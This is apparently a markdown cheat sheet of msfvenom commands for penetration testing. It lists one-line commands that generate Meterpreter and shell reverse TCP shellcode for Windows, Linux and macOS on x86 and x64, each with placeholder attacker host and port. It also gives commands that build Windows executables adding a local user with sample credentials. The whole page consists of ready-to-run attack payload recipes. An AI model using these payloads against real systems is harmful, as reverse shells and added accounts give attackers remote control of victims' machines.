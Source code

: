 # msfvenom Shellcode

## msfvenom - Windows x86 Meterpreter Reverse TCP Shellcode
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<lhost> LPORT=<lport> -f <language> -o shellcode_x86.<ext>
```

## msfvenom - Windows x64 Meterpreter Reverse TCP Shellcode
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<lhost> LPORT=<lport> -f <language> -o shellcode_x64.<ext>
```

## msfvenom - Linux x86 Meterpreter Reverse TCP Shellcode
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<lhost> LPORT=<lport> -f <language> -o shellcode_x86.<ext>
```

## msfvenom - Linux x64 Meterpreter Reverse TCP Shellcode
```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<lhost> LPORT=<lport> -f <language> -o shellcode_x64.<ext>
```

## msfvenom - macOS x86 Reverse TCP Shellcode
```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<lhost> LPORT=<lport> -f <language> -o shellcode_x86.<ext>
```

## msfvenom - macOS x64 Reverse TCP Shellcode
```
msfvenom -p osx/x64/shell_reverse_tcp LHOST=<lhost> LPORT=<lport> -f <language> -o shellcode_x64.<ext>
```

# msfvenom - Create User Payload

## msfvenom - Windows Add User Payload (x86)
```
msfvenom -p windows/adduser USER=<user|hacker> PASS='<pass|Hacker123$>' -f exe -o adduser_x86.exe
```

## msfvenom - Windows Add User Payload (x64)
```
msfvenom -p windows/x64/adduser USER=<user|hacker> PASS='<pass|Hacker123$>' -f exe -o adduser_x64.exe
```
